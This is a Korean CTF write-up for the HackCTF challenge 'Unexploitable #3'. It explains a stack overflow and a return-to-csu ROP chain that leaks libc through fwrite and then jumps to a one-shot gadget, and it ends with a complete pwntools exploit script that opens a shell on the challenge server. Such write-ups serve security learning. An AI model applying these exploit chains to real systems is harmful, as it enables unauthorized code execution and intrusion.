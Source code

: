 ```yaml
---
title: "[HackCTF]Unexploitable #3"
date: 2019-12-26
tags: [HackCTF]
categories: [HackCTF]
published: false
---
```


이번에는 RTC 응용해서 fwrite로 익스할 수 있는 문제다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-10h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  fwrite("Impossible RTL ha? Nothing for you!\n", 1uLL, 0x24uLL, stdout);
  fgets(&s, 256, stdin);
  return 0;
}
```

메인에서는 리턴 주소 바꿀 수 있다. `gift` 함수를 잘 보면 이번에는 system gadget을 안줬다.

여기서 leak을 할 때 쓸만한 함수는 fwrite 하나밖에 없다. 이를 이용해서 leak을 해주면 된다.

근데 RTC는 인자를 `rdi`, `rsi`, `rdx` 이 3개밖에 못 넣어준다. 

![](https://user-images.githubusercontent.com/32904385/71459626-c38fcb00-27eb-11ea-8be2-fdae1d2716bc.png)

gift함수를 자세히보면 `mov rcx, [rdi] ret` 가젯이 존재했다. 이를 통해서 4번째 인자에 값을 넣어줄 수 있었다.

![](https://user-images.githubusercontent.com/32904385/71471675-a3740200-2813-11ea-9758-b791588b2f58.png)

stdout도 존재하니까 이걸 `mov rcx, [rdi] ret` 를 이용해서 4번째 인자에 넣어주면 된다.

`__libc_csu_init` 영역을 이용해서 `fwrite(fwrite_got,1,6,stdout)`  이런식으로 가젯을 맞춰주면 fwrite을 통해 libc base를 구할 수 있고 메인으로 간다음에 라이브러리 맞춰주고 oneshot gadget구해서 리턴해주면 쉘을 흭득할 수 있다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./Unexploitable_3')
#p = process('./Unexploitable_3')
p = remote('ctf.j0n9hyun.xyz',3034)
libc = e.libc
csu_call = 0x0000000000400720
csu_pop = 0x000000000040073A
mov_ret = 0x0000000000400658 # 00658 mov     rcx, [rdi]
stdout = 0x0000000000601050
prdi = 0x0000000000400743 # pop rdi ; ret

# rdi rsi rdx rcx
def chain(r12,edi,rsi,rdx,ret):
	c = ''
	c += p64(csu_pop)
	c += p64(0)
	c += p64(1)
	c += p64(r12) # call
	c += p64(rdx) # 3
	c += p64(rsi) # 2
	c += p64(edi) # 1
	c += p64(ret)
	return c

payload = '\x90'*0x10
payload += 'realsung'
payload += p64(prdi)
payload += p64(stdout)
payload += p64(mov_ret)
payload += chain(e.got['fwrite'],e.got['fwrite'],1,6,csu_call)
payload += chain(0,0,0,0,e.symbols['main'])
p.sendlineafter('!\n',payload)

libc_base = u64(p.recv(6).ljust(8,'\x00')) - libc.symbols['fwrite']
log.info('libc_base : ' + hex(libc_base))

payload2 = '\x90'*0x10
payload2 += 'realsung'
payload2 += p64(libc_base + 0x45216)
p.sendlineafter('!\n',payload2)

p.interactive()
```

